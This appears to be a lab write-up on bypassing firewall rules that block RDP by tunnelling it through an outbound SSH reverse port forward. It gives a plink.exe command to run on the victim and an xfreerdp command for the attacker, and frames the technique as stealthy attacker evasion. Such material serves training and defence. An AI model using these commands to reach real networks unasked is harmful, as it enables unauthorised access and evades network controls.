




## Scenarios

Think stealth. In many enterprises, direct RDP connections to the internet are blocked—both inbound *and* outbound. Firewalls or egress filters cut off outbound RDP (TCP 3389) to prevent users or attackers from opening remote desktop sessions directly to the outside world.  

But here’s the catch: SSH is rarely blocked. Outbound SSH (TCP 22) is often allowed, either for administrators, developers, or automated processes that legitimately need it. This becomes the perfect cover channel.  

By wrapping RDP traffic inside an SSH tunnel, we bypass the outbound block entirely. To the firewall, it looks like a normal, permitted SSH session. Inside that encrypted stream, however, we’re smuggling RDP traffic.  

This dual effect makes SSH tunneling attractive:  
- **For admins/developers:** It provides secure, encrypted access without exposing RDP directly.  
- **For attackers:** It’s a stealth highway—RDP hidden inside an allowed protocol, nearly invisible to traditional firewall rules or simple packet inspection.  

In short: block RDP all you want—if SSH is open, attackers can still tunnel through.

## Work

Let’s break down how RDP tunneling through SSH actually works in practice:

1. **The Environment**  
   Inside the enterprise, there’s a Windows host running RDP on TCP 3389.  
   The firewall is locked down against inbound internet connections (a common setup), but outbound traffic is allowed.  
   On the outside, the operator controls a Linux server—often called a *bastion* or *C2 node*.

2. **The Pivot Calls Out**  
   From within the network, a machine that can reach the Windows RDP host initiates an outbound SSH connection to the external Linux server on TCP 22.  
   Because it’s outbound, the firewall happily lets it through.

3. **Building the Tunnel**  
   As part of that SSH session, the operator sets up a *remote port forward*.  
   In simple terms:  
   > “Hey Linux server, listen on 127.0.0.1:12345. Anything that comes in there—wrap it up, send it through this encrypted tunnel, and I’ll hand it off to the RDP service inside.”

4. **Listener Comes Alive**  
   Now the Linux server has a local-only listener running on 127.0.0.1:12345.  
   Nothing has touched the RDP host yet—it’s just a waiting pipe.

5. **Operator Connects Over RDP**  
   The operator fires up an RDP client on the Linux server, pointing it at 127.0.0.1:12345.  
   From the client’s perspective, it looks like a normal local connection.

6. **Traffic Flows Inside SSH**  
   The bytes from that RDP session don’t terminate on the Linux box.  
   Instead, SSH forwards them straight through the encrypted session on TCP 22.

7. **Delivered to the Real RDP Host**  
   On the inside, the SSH client receives the forwarded bytes and opens a standard TCP connection to the Windows host on port 3389.  
   From the Windows box’s perspective, it’s just a normal LAN connection.

8. **End-to-End Session**  
   From here on out, every RDP packet flows like this:  

The firewall only sees an allowed SSH session. It cannot inspect the RDP traffic inside because it’s fully encrypted.

`RDP client → 127.0.0.1:12345 (Linux) → SSH tunnel on TCP 22 → firewall → inside pivot → Windows:3389`

---

### What Each Party Sees
- **Perimeter firewall:** One long-lived outbound SSH connection with steady bandwidth.  
- **Linux server:** A loopback listener on 12345 receiving an RDP handshake.  
- **Windows host:** A local inbound connection to port 3389, as if it came from a machine inside the network.  

**Ports in play:**  
- 22 → SSH tunnel transport  
- 12345 → External loopback helper port  
- 3389 → Actual RDP service  
- Ephemeral ports → Temporary client-side sources  

---

### Why It Works
The firewall is configured to block inbound connections, but nothing stops an internal host from calling out.  
By wrapping RDP inside an outbound SSH tunnel, the operator bypasses the “no inbound” policy.  
From the outside world, nobody ever connects directly to port 3389—RDP is completely hidden inside SSH.

## Practice

### Environment Setup

For this lab, we’ll simulate a simple network:

- **Attacker (Kali Linux):** `192.168.50.2`  
- **Victim (Windows 10):** `192.168.50.3`  

The attacker will use SSH tunneling to reach the RDP service running on the victim, even though direct RDP connections are blocked.

---

### Steps

**Victim:**

`plink.exe <users>@<IP or domain> -pw <password> -P 22 -2 -4 -T -N -C -R 12345:127.0.0.1:3389`

**Attacker:**

`xfreerdp3 /u:<user> /p:<password> /v:127.0.0.1:12345`

---

1. **Enable outbound rule for mstsc**

    
    

2. **Remmina**

    
    Fail when connect directly with rdp connection

3. **xfreerdp**

    
    Success through ssh tunnel

## References

[Bypassing Network Restrictions Through RDP Tunneling](https://cloud.google.com/blog/topics/threat-intelligence/bypassing-network-restrictions-through-rdp-tunneling/)